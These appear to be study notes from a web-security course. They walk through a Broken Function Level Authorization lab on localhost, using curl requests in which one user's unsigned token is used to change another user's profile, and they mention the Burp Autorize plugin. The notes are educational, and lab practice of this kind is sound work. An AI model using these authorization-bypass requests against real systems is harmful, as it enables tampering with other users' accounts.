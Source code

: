 so lets send the same req with the same session token so this is jeremy session token except we want to target  the user jessamy and this is really a common attack where sometimes you will be able to update or access different user accounts just because the application is taking some input from the user as the target account to update or view and we are going to change this to BFLA  bio which stands for Broken Function Level Authorization which is what this attack is called when we are dealing with APIs  
```python
┌──(cyber㉿kali)-[~]
└─$ curl -X PUT -H "Content-Type: application/json" -d '{"token": "eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=", "username": "jessamy", "bio": "FLA BIO."}' http://localhost/labs/api/account.php
{"status":"success","message":"Bio updated successfully"}    
```

we could grab jessamy original token and verify this is indeed the case 
copy the get request in labs and put jessamy token and verify it 
```python
┌──(cyber㉿kali)-[~]
└─$ curl -X GET "http://localhost/labs/api/account.php?token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9."
{"username":"jessamy","role":"admin","bio":"FLA BIO."}   
```
and we can see that jeremy was able to update the jessamy account so this is broken access control more specifically working with APIs  BFLA dont get too bug bounty terminology 
so this the issue in access control or authorization that jeremy can update the jessamy account 

#   ==Testing with Autorize==

Open Burp suite Install the plugin called Authorize before that install it requirement Jython and select it using setting extension scroll down to jython selection and select it jython standalone 
After installing autorize make a JWT request 
```python
┌──(cyber㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"username": "jeremy", "password": "cheesecake"}' http://localhost/labs/api/login.php
{"status":"success","token":"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=."}                                                                                                ┌──(cyber㉿kali)-[~]
└─$ 

```

Now here we got the Jeremy token
`eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=.`

Same for the jessamy token

```python
┌──(cyber㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"username": "jessamy", "password": "tiramisu"}' http://localhost/labs/api/login.php
{"status":"success","token":"eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9."}
```
